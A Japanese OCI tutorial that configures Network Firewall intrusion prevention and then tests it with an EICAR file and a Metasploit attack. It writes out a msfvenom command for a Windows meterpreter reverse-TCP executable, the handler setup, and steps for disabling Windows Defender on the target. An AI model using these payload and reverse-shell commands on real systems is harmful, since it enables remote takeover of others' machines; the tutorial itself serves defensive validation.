

パロアルトネットワークスの次世代ファイアウォール技術を基に構築されたOCIクラウドネイティブのマネージド・ファイアウォール「OCI Network Firewall」が2022年7月にリリースされました。「OCI Network Firewall」はURLフィルタリングやTSL/SSL検査などの機能を提供します。 本チュートリアルはOCI Network Firewallを構築するの続編として、IPS/IDSの設定および動作を確認します。
IPS/IDSの動作検証には、Kali LinuxのツールおよびEicarファイルを使用します。 Kali Linuxでは、Network Firewallインスタンスに保護されたWindowsのコンピュートインスタンスに侵入テストを実施します。 Eicarファイルを使用する際は、Network Firewallインスタンスに保護されたLinuxのコンピュートインスタンスにWebサーバーを構築し、Webサーバーを使用して動作を検証します。
所要時間 : 約60分
前提条件 :
- OCIチュートリアルOCI Network Firewallを構築するを参考に、Network Firewallインスタンスの作成、コンピュートインスタンス（LinuxまたはWindows）の作成が終わっていること
- Kali Linuxを使用した動作検証を実施する場合、Windowsのコンピュートインスタンスに対して侵入テストを実施します。OCIチュートリアルOCI Network Firewallを構築するの手順6-2Windowsインスタンスの作成に沿って、Windowsのコンピュートインスタンスが作成されていることを確認してください。
- Kali Linuxを使用した動作検証を実施する場合、Kali LinuxをOCIにデプロイするを参考に、OCI Network Firewallで保護されたコンピュートインスタンスに対して通信を行える環境に、Kali Linuxの構築が終わっていること。
- Eicarファイルを使用した動作検証を実施する場合、LinuxのコンピュートインスタンスにWebサーバーをインストールして動作を検証します。OCIチュートリアルOCI Network Firewallを構築するの手順6-1Linuxのコンピュート・インスタンスの作成に沿って、Linuxのコンピュートインスタンスが作成されていることを確認してください。
重要： OCIの環境へツールなどを用いた侵入テストを実行する際は、メールにてOracleに事前に侵入テストの実施を通知する必要があります。本チュートリアルの内容を実施する際は、クラウド・セキュリティ・テスト通知の送信を参考に、事前にOracleへ告知メールを送信してください。
注意 :
- ※チュートリアル内の画面ショットについてはOracle Cloud Infrastructureの現在のコンソール画面と異なっている場合があります。
- ※本チュートリアルでは、OCI Network Firewallの機能検証を目的にKali LinuxおよびEicarファイルを使用します。ご自身の管理下にないサーバーや、本番環境に対しては使用しないでください。また、ツールを使用したことによりトラブルや損失が発生した場合についても責任を負いかねます。
1. ネットワーク・ファイアウォール・ポリシーの編集
今回のチュートリアルでは、OCI Network Firewallを構築するで作成したネットワーク・ファイアウォール・ポリシーを編集し、既存のネットワーク・ファイアウォール・ポリシーで許可しているアクセス以外は全て侵入検知するセキュリティ・ルールを追加します。
1-1. ネットワーク・ファイアウォール・ポリシーのクローニング
OCIチュートリアルOCI Network Firewallを構築するで作成したネットワーク・ファイアウォール・ポリシーの詳細画面の「ポリシーのクローニング」をクリックします。 
「ネットワーク・ファイアウォール・ポリシー・クローンの作成」画面にて、新しいネットワーク・ファイアウォール・ポリシー名を入力し、「ネットワーク・ファイアウォール・ポリシーの作成」ボタンをクリックします。
名前- 任意 例）NFWPolicy2
以上の手順で、既存のネットワーク・ファイアウォール・ポリシーのクローンは完了です。 クローンしたネットワーク・ファイアウォール・ポリシーは既存の設定内容を修正し、新しくネットワーク・ファイアウォール・インスタンスにアタッチすることができます。
1-2. サービス・リストの追加
手順1-2でクローンしたネットワーク・ファイアウォール・ポリシーの詳細画面を開きます。
ポリシー詳細画面左下のポリシー・リソースから「サービス・リスト」を選択し、「サービス・リストの作成」ボタンをクリックします。
「サービス・リストの作成」画面にて、任意のサービス・リスト名を入力します。
例）「others」
サービス・リスト名を入力したら、「サービスの作成」ボタンをクリックします。
「サービスの作成」画面にて、以下情報を入力し、「サービスの作成と選択」ボタンをクリックします。
名前- 任意 例）othersプロトコル- TCPポート範囲- 1-9999
作成したサービスが「Selectedサービス」に追加されていることを確認したら、「サービス・リストの作成」ボタンをクリックします。
1-3.セキュリティ・ルールの作成
セキュリティ・ルールでは、手順1-2で指定したポート番号による通信のパケットを監視し、不正通信を防止するルールを作成します。
ポリシー詳細画面左下のポリシー・リソースから「セキュリティ・ルール」を選択し、「セキュリティ・ルールの作成」ボタンをクリックします。
「セキュリティ・ルールの作成」画面にて、セキュリティ・ルール名を入力します。
例）others-ips
一致条件の項目にて、「ソースIPアドレス」、「宛先IPアドレス」、「アプリケーション」は全て「任意」を選択します。
「サービス」にて、「サービス・リストの選択」をクリックし、「サービス・リストの選択
」ボタンをもう一度クリックします。
「サービス・リストの選択」画面にて、手順1-2で作成したサービス・リストにチェックをいれ、「選択済へ追加」ボタンをクリックします。
選択されたサービス・リストの欄に、手順1-2で作成したサービス・リストが表示されていることを確認したら、画面下の「選択したサービス・リストの追加」ボタンをクリックします。
URLは「任意のURL」を選択します。
続いて、ルール・アクションにて「侵入防止」を選択します。
ルールの順序で「リストの最後のルール」を選択し、「セキュリティ・ルールの作成」ボタンをクリックします。
以上の手順で、ポート番号1番から9999番における不正通信の侵入防止の設定は完了です。
セキュリティ・ルールは設定された順序に沿って通信が検査され、今回追加した侵入防止のルールは一番最後に検査されます。
2. Network Firewallインスタンスに割り当てられているNetwork Firewallポリシーの変更
OCIチュートリアルOCI Network Firewallを構築するで作成したNetwork Firewallインスタンスの詳細画面の「編集」ボタンをクリックします。

「ファイアウォールの編集」画面にて、手順1で作成したネットワーク・ファイアウォール・ポリシー「例）NFWPolicy2」を選択し、「変更の保存」ボタンをクリックします。

約10分程でNetwork Firewallが「更新中」から「アクティブ」になります。

Network Firewallが再び「アクティブ」になるのを待つ間に、次のステップでNetwork Firewallで保護されたコンピュートインスタンスにWebサーバーをインストールします。
3. Network Firewallで保護されたコンピュートインスタンスにWebサーバーをインストール（Eicarファイルを使用する場合）
本手順では、Eicarファイルを使用した動作検証を実施する場合、必要になるWebサーバーをインストールします。 OCIチュートリアルOCI Network Firewallを構築するで作成したコンピュートインスタンス（Linux）にSSHでアクセスします。 ターミナルで以下コマンドを実行し、Apache HTTPサーバをインストールします。
-
Apache HTTPサーバーをインストールします
sudo yum -y install httpd -
TCPの80番(http)および443番(https)ポートをオープンします
sudo firewall-cmd --permanent --add-port=80/tcp sudo firewall-cmd --permanent --add-port=443/tcp -
ファイアウォールを再ロードします
sudo firewall-cmd --reload -
Webサーバーを起動します
sudo systemctl start httpd
クライアントPCのブラウザを開き、「http://<コンピュートインスタンスのIPアドレス>」にアクセスし、以下のようなページが表示されることを確認します。

4. Network Firewallインスタンスのログの有効化
本手順では、Network Firewallインスタンスのログを有効化します。 Network Firewallでは、以下2種類のログを出力します。
- Traffic Log : Network Firewallインスタンスを通過したトラフィックを記録したログ。
- Threat Log : Network Firewallによって脅威が検知されたトラフィックの詳細情報（脅威の内容など）を記録したログ。
本チュートリアルでは、実際に攻撃した内容がNetwork Firewallによって脅威として検知されているかを確認するため、「Threat Log」を有効化します。
Network Firewallインスタンスの更新が終了し、再びアクティブになったら、Network Firewallインスタンス詳細画面左下にあるリソースから「ログ」を選択します。

表示された「ログの有効化」画面にて、以下情報を入力し、「ログの有効化」ボタンをクリックします。
ログ・グループ- 新規ログ・グループの作成を選択します。名前- 任意 例）NFW_LOG説明- 任意ログ名- デフォルト「NFW1_threatlog」のままにします。変更したい場合は任意のログ名を入力してください。ログの保持- デフォルトの1ヵ月にします。最大で6ヵ月まで保持することが可能です。
5. Eicarファイルを用いたNetwork Firewallの動作検証
Eicarファイルは、ウイルス対策ソフトの応答をテストするためにEICARが開発したテストファイルです。
5-1. Eicarファイルの配置
Eicarのホームページから、eicar.comファイルをクリックします。

以下の文字列がブラウザ上に表示されるので、表示された文字列をクリップボードにコピーします。

手順3でWebサーバーをインストールしたインスタンスにアクセスし、/var/www/htmlディレクトリ配下にコピーしたeicarファイルの中身をペーストします。 ここではページ名を「eicar.html」とします。
$ sudo cd /var/www/html
$ sudo vi eicar.html

5-2. Eicarファイルへアクセス
クライアントPCのブラウザを開き、以下URIにアクセスします。
http://<手順3でWebサーバをインストールしたインスタンスのIPアドレス>/eicar.html
OCI Network Firewallの侵入防止の機能によって、接続がリセットされます。

5-3. Network Firewallのログの確認
実際にNetwork Firewallのログに、脅威情報として上記のアクセスが記録されていることを確認します。
Network Firewallインスタンスの詳細画面左下のリソース→ログ→手順4で有効化したThreat Logの「ログ名」から、ログを確認します。

出力されたログから、手順1-3で作成したルール「others-ips」によって「Eicarファイルが検知」され、クライアントPCのグローバルIPアドレスからの接続がリセットされていることが分かります。

6. Kali LinuxのMetasploit Frameworkを用いたNetwork Firewallの動作検証
本手順ではKali LinuxにインストールされているMetasploit FrameworkのReverse TCP Shellを用いて、Network Firewallに保護されたコンピュート（Windows）へ侵入テストを実施します。
Reverse TCP Shellとは、被害側クライアントから攻撃側のサーバーに対してTCPのポートを使用したシェルを提供する仕組みのことです。 通常、攻撃者は攻撃対象のシステムのシェルを使用してコマンドなどを実行します。しかし、ほとんどのシステムはファイアウォールにより特定のポートに対する不正なインバウンド通信などは制御されているため、攻撃者が直接シェルと通信を確立するのは難しいです。 しかし、ほとんどのシステムはファイアウォールにより外から内へのインバウンド通信を制御していますが、内から外へのアウトバウンド通信を制御していないことがあります。そのような場合に、攻撃者が攻撃対象のシステム上のシェルでコマンドを実行するために利用されるのがReverse TCP Shellになります。
今回はKali Linuxを攻撃側（クライアント）とし、Windowsサーバーに接続します。Kali LinuxのMetasploit Frameworkを用いてReverse TCP Shellを実行する実行ファイルを生成します。Kali LinuxはWindowsからの接続をListen状態で待っている際、Windowsサーバーが実行ファイルをダウンロードし、実行するとWindowsサーバーからKali Linuxへのアウトバウンド通信が発生してセッションが確立されます。
6-1. ファイルの作成
本手順では、被害側クライアントが実行すると、攻撃側のサーバーにTCPポートを使用した通信が発生するファイルを作成します。
Kali Linuxにリモートデスクトップ接続します。

Kali Linuxのデスクトップ画面左上のメニューから、「Terminal Emulator」をダブルクリックで開きます。

以下コマンドで、Reverse TCP Shellの通信を確立するファイルを生成します。
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali LinuxのIPアドレス> LPORT=4444 -f exe -o <ファイルを生成するディレクトリ>/<ファイル名>

Kali Linuxのデスクトップ画面左上のメニューから「Metasploit framework」を検索し、アプリをダブルクリックしてターミナルを開きます。

開かれたターミナルで、以下コマンドを実行します。
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)> set LHOST <Kali LinuxのIPアドレス>
msf6 exploit(multi/handler)> set LPORT 4444
msf6 exploit(multi/handler)> exploit

この状態で、先程生成したファイルWindowsサーバーが実行したら、WindowsサーバーからKali Linuxへアウトバウンド通信が発生し、Kali LinuxからWindowsサーバーに対して任意のコマンドを実行することが出来るようになります。
6-2. Windowsサーバーでファイルのダウンロードと実行
本手順では、Network Firewallによって保護されたWindowsのインスタンスで、手順6-1で生成したファイルをダウンロードし、実行します。本来であれば、ファイルを実行したWindowsのインスタンスからKali Linuxへの通信が発生し、セッションが確立されます。セッションが確立されるとKali LinuxからWindowsのインスタンスに対して任意のコマンドを実行することができます。 しかし、今回はNetwork FirewallのIPSの機能によってファイルの実行が妨げられ、クライアントとKali Linux間の接続がリセットされます。
まずは実行ファイルをクライアントがダウンロードできるよう、ファイルをKali Linuxの/var/www/htmlディレクトリ配下にコピーします。 ※Kali LinuxにはWebサーバーがデフォルトでインストールされています。
$ sudo cp rs_exploit1.exe /var/www/html

続いて、OCIチュートリアルOCI Network Firewallを構築するの手順6-2Windowsインスタンスの作成で作成したWindowsのコンピュートインスタンスにリモートデスクトップ接続をします。
デスクトップのメニューからServer Managerを開きます。

Local Server → Windows Defende AntivirusのReal-Time Protection:Onを選択します。
※合わせてIE Enfances Security ConfigurationがOffになっていることも確認してください。Onになっている場合、Offに変更してください。

表示されたポップアップ画面にて、「Real-time protection」と、「Cloud-delivered protection」をOffにします。

続いてInternet Explorerを開き、以下URIにアクセスすると、ファイルが自動的にダウンロードされ、ファイルを実行するか確認されます。
http://<Kali LinuxのIPアドレス>/rs_exploit.exe
ファイルの「Run」ボタンをクリックします。

警告メッセージが表示された場合は、もう一度「Run」ボタンをクリックします。そうするとNetwork Firewallによってファイルの実行が遮断されます。

Kali LinuxのMetasploit Frameworkでexploitコマンドを実行しているターミナルにも何も表示されていないので、実行は失敗していることが分かります。

6-3. Network Firewallのログの確認
実際にNetwork Firewallのログに、脅威情報として上記のアクセスが記録されていることを確認します。
Network Firewallインスタンスの詳細画面左下のリソース→ログ→手順4で有効化したThreat Logの「ログ名」から、ログを確認します。
手順1-3で作成したルール「others-ips」によって「TCP Shell Command」が検出され、WindowsのコンピュートインスタンスのプライベートIPアドレスからKali LinuxのパブリックIPアドレスに対して不正に発生している通信をNetwork Firewallがリセットしていることが分かります。

以上で、Kali LinuxのMetasploit Frameworkを用いたNetwork Firewallの動作検証は終了です。
6-4. 補足1：Reverce TCP Shellの通信が確立された場合
Network Firewallによって保護されていないWindowsのインスタンスで同様にファイルをダウンロードして実行すると、WindowsインスタンスとKali Linux間のセッションが確立します。
Kali LinuxからはWindowsインスタンスに対してコマンドを実行することが出来るようになります。

6-5. 補足2：IDSの場合
手順1-3で追加するセキュリティ・ルールのルール・アクションを「侵入防止」ではなく、「侵入検知」にすると、以下のような内容のThreat Logが出力されます。

WindowsサーバーのプライベートIPアドレスから、Kali LinuxのパブリックIPアドレスに対して通信が発生していることをアラートとして検知しています。